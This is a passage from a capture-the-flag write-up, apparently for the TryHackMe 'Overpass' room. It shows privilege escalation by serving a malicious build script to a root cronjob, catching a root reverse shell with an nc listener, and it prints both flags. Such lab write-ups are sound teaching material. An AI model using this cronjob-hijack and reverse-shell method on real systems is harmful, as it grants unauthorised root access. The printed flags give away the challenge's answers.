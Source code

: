 - For this part important note. You must run Python HTTP from your home directory `~` and not from the directory where reverse shell is othervise it won't work.
  Cronjobs takes a full path to the script in order to download it and if you are running a server from `/downloads/src` simply that path doesn't exist. Don't make the same mistake as me lol!
  After starting a server, start a listener on another terminal and after a minute you will get a root shell. From that point on just read the flag.

  ```
  sudo python3 -m http.server 80
  Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
  10.10.196.17 - - [12/May/2025 14:55:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -

  nc -lvnp 4444
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.196.17] 43158
  bash: cannot set terminal process group (1217): Inappropriate ioctl for device
  bash: no job control in this shell
  root@overpass-prod:~# whoami
  whoami
  root
  
  root@overpass-prod:~# id
  id
  uid=0(root) gid=0(root) groups=0(root)
  
  root@overpass-prod:~# cat /root/root.txt
  cat /root/root.txt
  thm{7f336f8c359dbac18d54fdd64ea753bb}
  ```

---

## 🏁 Flags

- **User Flag**: `thm{65c1aaf000506e56996822c6281e6bf7}`
- **Root Flag**: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Finding the right exploitation methods.`

- What did I learn?
  `New way of exploiting the cronjobs.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
